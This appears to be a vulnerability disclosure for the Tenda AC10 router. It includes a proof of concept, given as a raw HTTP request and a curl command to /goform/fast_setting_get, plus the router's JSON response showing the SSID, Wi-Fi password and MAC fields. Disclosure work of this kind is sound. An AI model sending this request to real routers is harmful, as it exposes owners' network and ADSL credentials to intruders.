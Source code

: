 # IOT-CVE

# Details


An issue was discovered on Tenda AC1200 MV-MIMO Dual Band GB wifi Router (AC-10)  devices with firmware V15.03.06.50_multi. Privilege escalation
vulnerability in /goform/fast_setting_get allows attackers to enumrate and get Routers Default Information (ssid, password, devicemac, defmac, adsluser, adslpassword)  on the system via a crafted post request.


# Poc

GET /goform/fast_setting_get?0.7024619795874003 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: password=mibtgb
Connection: close

Curl;

curl -i -s -k -X $'GET' \
    -H $'Host: 192.168.0.1' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36' -H $'X-Requested-With: XMLHttpRequest' -H $'Referer: http://192.168.0.1/index.html' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Cookie: password=mibtgb' -H $'Connection: close' \
    -b $'password=mibtgb' \
    $'http://192.168.0.1/goform/fast_setting_get?0.7024619795874003';



# Response


HTTP/1.1 200 OK
Content-type: text/plain; charset=utf-8
Pragma: no-cache
Cache-Control: no-cache

'''
{"line":0,"wanType":-1,"net":0,"outType":1,"timeout":"0","lanIp":"192.168.0.1","lanMask":"255.255.255.0","adslUser":"","adslPwd":"","ssid":"Tenda_B38C40","wrlPassword":"DEFAULTPASSWORD","country":"US","power":"high","cloneType":"0","mac":"","deviceMac":"RETACTED","defMac":"RETACTED"}
'''

## Acknowledgment

Pankaj Kumar Thakur (@nep_1337_1998) from Nepal
